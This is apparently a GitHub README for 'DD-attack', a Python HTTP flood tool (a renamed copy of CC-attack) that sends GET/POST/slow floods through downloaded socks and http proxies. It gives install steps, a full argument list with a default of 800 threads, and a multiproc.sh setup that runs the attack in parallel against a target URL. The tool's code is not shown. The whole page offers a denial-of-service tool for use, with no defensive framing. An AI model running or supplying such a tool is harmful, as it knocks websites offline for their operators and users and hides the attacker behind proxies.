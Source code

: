   _      ______ _____ _    _  ____  _   _  _____ _______   _      _             _____  _____              _   _             _    
| |    |  ____/ ____| |  | |/ __ \| \ | |/ ____|__   __| (_)    | |           |  __ \|  __ \            | | | |           | |   
| |    | |__ | |    | |  | | |  | |  \| | |  __   | |_ __ _  ___| | _____ _ __| |  | | |  | |______ __ _| |_| |_ __ _  ___| | __
| |    |  __|| |    | |  | | |  | | . ` | | |_ |  | | '__| |/ __| |/ / _ \ '__| |  | | |  | |______/ _` | __| __/ _` |/ __| |/ /
| |____| |___| |____| |__| | |__| | |\  | |__| |  | | |  | | (__|   <  __/ |  | |__| | |__| |     | (_| | |_| || (_| | (__|   < 
|______|______\_____|\____/ \____/|_| \_|\_____|  |_|_|  |_|\___|_|\_\___|_|  |_____/|_____/       \__,_|\__|\__\__,_|\___|_|\_\
Tool by Le Cuong Piano
DD-attack  
A script for using socks4/5 or http proxies to attack http(s) server.

News:

 Added Support of HTTP proxies
 Added More proxies api to download
Info:

 Using Python3
 Added more human-like options
 Http Get/Head/Post/Slow Flood
 Random Http Header/Data
 Socks4/5 Proxies Downloader
 Socks4/5 Proxies Checker
 Customize Cookies
 Customize Post Data
 Support HTTPS
 Support Socks4/5
Showcase
Using multiproc.sh with socks4 on a vps 

Install
pip3 install requests pysocks
git clone https://github.com/le-cuong-hacker1111/DD-attack
cd DD-attack
Usage
python3 DD-attck.py <arguments>
===============  CC-attack help list  ===============
   -h/giúp đỡ   | hiển thị tin nhắn này
   -url         | đặt url mục tiêu
   -m/cách thức | đặt chế độ chương trình
   -data        | đặt đường dẫn dữ liệu bài đăng (chỉ hoạt động ở chế độ bài đăng)
                | (Ví dụ: -data data.json)
   -cookies     | đặt cookie (Ví dụ: 'id: xxx; ua: xxx')
   -v           | đặt loại proxy (4/5 / http, mặc định: 5)
   -t           | đặt số chủ đề (mặc định: 800)
   -f           | đặt tệp proxy (mặc định: proxy.txt)
   -b           | bật / tắt chế độ vũ phu
                | Bật = 1 Tắt = 0 (mặc định: 0)
   -s           | đặt thời gian tấn công (mặc định: 60)
   -down        | tải xuống proxy
   -check       | kiểm tra proxy
=====================================================
Usage of multiproc.sh
This script is using for increasing the performance of DD-attack.py.
Due to the suck performance of python since it has a GIL lock,
And I am lazy to make a multiprocess version.
There is a option for linux user to increase their performance of cc.py

This script basicly just run DD-attack.py multiple times to make it "multi-processing"

First, put this script and DD-attack.py in the same folder.

Then prepare the proxies list by yourself or just run "python3 DD-attack.py -down -v 4" (-v socks version)

After that, change the number of process.

At last, change atk_cmd to your command and run the script by "bash multiproc.sh"
Example setup of multiproc.sh (-v socks version) (-s attack time)

atk_cmd="python3 cc.py -url http://target.com -v 4 -s 60"

#number of process that you want
process=10

© 2022 GitHub, Inc.
Terms
Privacy
Security
Status
Docs
Contact GitHub
Pricing
API
Training
Blog
About
